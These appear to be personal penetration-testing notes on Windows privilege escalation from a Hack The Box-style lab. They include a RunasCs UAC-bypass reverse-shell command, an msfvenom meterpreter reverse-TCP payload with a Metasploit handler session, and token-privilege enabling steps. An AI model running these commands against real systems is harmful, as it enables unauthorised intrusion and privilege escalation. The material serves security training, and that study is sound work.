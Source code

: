 # Services
- [[Weak Permissions#Replacing Service Binary]]
- [[Weak Permissions#Unquoted Service Path]]
- [[Weak Permissions#Permissive Registry ACLs]]
## Check privileges
When you have shell, you may run `whoami /priv` put this shell is in lower intigrety level, So you may have good privileges but you can't see them.

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

## UAC bypass

So you need to bypass the UAC to get highter intigrety level shell. You can use  [UACME](https://github.com/hfiref0x/UACME) or `RunasCs.exe`
we have used `-r` for reverse shell, you can make your own reverse shell or execute what ever you want. And `-b` to bypass UAC.

```batch
PS C:\ProgramData> .\RunasCs.exe <username> <password> cmd -r <My-ip>:<PORT> --bypass-uac --logon-type '8'
```

## Enable privileges

After that you need to enable your privileges.
Using powershell directly may make you suffer. So try to use `msfvenom`, `metasploit`


```sh
oxdf@hacky$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.6 LPORT=9001 -f exe -o rev.exe
oxdf@hacky$ msfconsole
...[snip]...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run
```

At Target:

```powershell
PS 1.st_reverse_shell> .\rev.exe
```

At Metasploit:

```sh
msf6 exploit(multi/handler) >

[*] Started reverse TCP handler on 10.10.14.6:9001
[*] Sending stage (201798 bytes) to 10.10.11.251
[*] Meterpreter session 1 opened (10.10.14.6:9001 -> 10.10.11.251:49690) at 2024-06-03 17:05:50 -0400

meterpreter > getuid
Server username: POV\alaading
```

You may find your self Enabled privileges and if not use `Enable-Privilege.ps1` to enable your priv

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```
